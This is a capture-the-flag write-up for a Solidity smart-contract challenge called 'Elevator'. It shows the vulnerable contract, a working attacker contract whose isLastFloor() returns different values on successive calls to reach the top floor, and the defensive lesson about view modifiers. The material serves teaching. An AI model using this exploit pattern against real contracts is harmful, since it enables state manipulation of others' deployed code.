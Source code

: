 # Elevator

## Challenge Description

This elevator won't let you reach the top of your building. Right?

##### Things that might help:

-   Sometimes solidity is not good at keeping promises.
-   This `Elevator` expects to be used from a `Building`.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

contract Elevator {
    bool public top;
    uint public floor;

    function goTo(uint _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## Challenge Solution Walkthrough

In this challenge, we exploit the `Elevator` contract by creating our own `Building` contract with a modified `isLastFloor()` function. We call the `goTo()` function of the `Elevator` contract while controlling the behavior of `isLastFloor()` to bypass the condition and move the elevator to the top floor.

Here's an example implementation of the `Building` contract:

```solidity
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract Building {
    Elevator public elevator;
    bool public entered = true;

    constructor(address elevatorAddress) {
        elevator = Elevator(elevatorAddress);
    }

    function solveChallenge() public {
        elevator.goTo(1);
    }

    function isLastFloor(uint256) external returns (bool) {
        entered = !entered;
        return entered;
    }
}
```

The `Building` contract has a `solveChallenge()` function that calls the `goTo()` function of the `Elevator` contract with a desired floor value (in this case, 1).

Inside the `Building` contract, we implement our own `isLastFloor()` function. This function toggles the value of the `entered` variable and returns it. By doing so, we make the `isLastFloor()` function return `false` the first time it's called, which allows us to pass the `if` statement in the `Elevator` contract. On subsequent calls, it returns `true`, which satisfies the `top = building.isLastFloor(floor)` condition.

By executing the `solveChallenge()` function of the `Building` contract, we trigger the modified `isLastFloor()` function and bypass the condition in the `Elevator` contract. As a result, the elevator moves to the top floor.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
